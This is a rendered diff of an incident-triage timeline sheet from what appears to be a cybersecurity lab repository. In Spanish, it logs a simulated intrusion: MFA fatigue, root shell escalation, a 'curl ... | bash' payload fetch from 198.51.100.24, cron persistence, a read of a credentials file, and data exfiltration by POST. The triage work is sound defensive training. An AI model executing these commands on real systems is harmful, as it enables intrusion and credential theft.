

Before and after one commit to jgomezz/cyber_s10_lab_rev_src_and_triaje, an Excel workbook: salidas/triage_A-0001_groq_oss_todos.xlsx, sheet Línea de tiempo, drawn as a sheet; values as stored, in another font and other column widths than the file's, no borders; addresses are those after the commit; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/salidas/triage_A-0001_groq_oss_todos.xlsx (sheet Línea de tiempo)
+++ b/salidas/triage_A-0001_groq_oss_todos.xlsx (sheet Línea de tiempo)
+row 2: 2026-03-13 22:51:10 | EV-003 | MFA push rechazado desde 203.0.113.77 (inicio de MFA fatigue)
+row 3: 2026-03-13 22:52:31 | EV-004 | MFA push rechazado adicionalmente desde 203.0.113.77
-B4 (evento): EV-003
+B4 (evento): EV-005
-C4 (que_paso): MFA push rechazado (primer intento) desde IP 203.0.113.77
+C4 (que_paso): MFA push aprobado (el atacante obtuvo el factor)
-C6 (que_paso): Conexión SSH al bastión-01 desde 10.8.0.23 (primer acceso en 90…
+C6 (que_paso): SSH al bastión-01 desde 10.8.0.23 (primer acceso al bastión en 90…
-C8 (que_paso): …de sudo por m.rojas para abrir una shell bash
+C8 (que_paso): …de sudo para abrir una shell bash como root
-C9 (que_paso): Ejecución de curl -s http://198.51.100.24/a.sh | bash
+C9 (que_paso): Ejecutó curl -s http://198.51.100.24/a.sh | bash (descarga de payload)
-C10 (que_paso): Creación y ejecución de archivo /tmp/.cache/kworkerd
+C10 (que_paso): Creó y ejecutó /tmp/.cache/kworkerd (archivo malicioso)
-C11 (que_paso): Modificación del crontab de…
+C11 (que_paso): Modificó crontab de…
-C12 (que_paso): Lectura del archivo /etc/andina/pagos.env (credenciales DB)
+C12 (que_paso): Leyó archivo /etc/andina/pagos.env y obtuvo credenciales de DB
-C14 (que_paso): Creación de archivo /tmp/.cache/c.tgz…
+C14 (que_paso): Creó archivo /tmp/.cache/c.tgz…
-C15 (que_paso): POST HTTPS a 198.51.100.24/upload, envío de 43,6 MB (exfiltración)
+C15 (que_paso): POST https://198.51.100.24/upload 43,6 MB enviados (exfiltración)
-C16 (que_paso): Generación de alerta NDR A-0001 por transferencia anómala
+C16 (que_paso): Generada alerta NDR A-0001 por transferencia saliente anómala
```
Also changed, not shown: sheet ATT&CK, sheet Registro, sheet Antecedentes, sheet Triage, sheet Resumen, 11 other files.
